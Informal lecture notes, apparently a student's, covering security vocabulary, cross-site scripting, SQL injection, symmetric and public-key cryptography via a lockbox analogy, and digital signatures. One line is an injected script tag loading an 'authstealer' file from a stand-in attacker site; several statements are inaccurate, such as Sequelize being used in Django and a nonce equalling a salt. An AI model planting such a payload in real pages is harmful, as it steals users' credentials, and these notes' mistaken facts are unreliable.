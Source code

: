 # Security!

-------
security is like a mindset. Where are possible avenues that some attacker could compromise the application to get sensitive data. 

we as a general community have come up with ways to defend websites against common attacks. 

adversaries - those who would want to bring an app down
attack surface - vulnerabilities that a particular person has.
attack vector - ways that adversaries can attack a target
risks - what the target has to lose
mitigation - how a target can prevent an attack from happening
---------

cross-site injection attack

```
```I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">```

```
https://xkcd.com/327/


SQL Injections are a common type of attack. Use Sequelize in Django to help prevent unwanted inputs...sequelize is SQL's version of mongo's mongoose. 

Symmetric Cryptography
* one key that locks and unlocks the box. You can hand that key to someone else to lock and unlock that box. Downside: if that key gets stolen, that person has access to your lockbox and everything in it. 

Assymetric Cryptography
* Public-key cryptography
You have two keys. One key is for locking. And the other key is for unlocking. 

This box has a very special lock: three states:

* A (locked)
* B (unlocked)
* C (locked)

It has two separate keys. The first one can only turn clockwise (from A to B to C). The second one can only turn counterclockwise (C to B to A).

One is a "private" key and the other is a "public" key. It's private only because the owner has it. The second is "public" because copies can be made. 

We can do things with these keys:

Imagine you want to send the owner a very personal document. You put the document in the box and use a copy of her public-key to lock it. Remember, the owner's key only turns anti-clockwise, so you turn it to position A. Not the box is locked. The only key that can turn from A to B is the owner's private key, the one the owner kept to themselves. 

This is what we call a public key encryption. Everyone who has the owner's public key can put documents in her box, lock it, and know that the only person who can unlock it is Anna. 


-----
Digital Signatures

There is one more interesting use of this box. 

Suppose the owner puts a document in it. Then she uses her private key to lock the box (i.e. she turns the key to position C)

Why would the owner do this? After all, anyone with the public-key can unlock it. 

Someone delivers me this box and says it's from the owner. I don't believe him, but I pick the owner's public-key from the drawer and I try it. I turn right, nothing. I turn left and the box opens! this can only mean one thing: the box was locked with the private key. That means the owner put the documents in the box. This is called a 'digital signature'. 

Nonce = SALT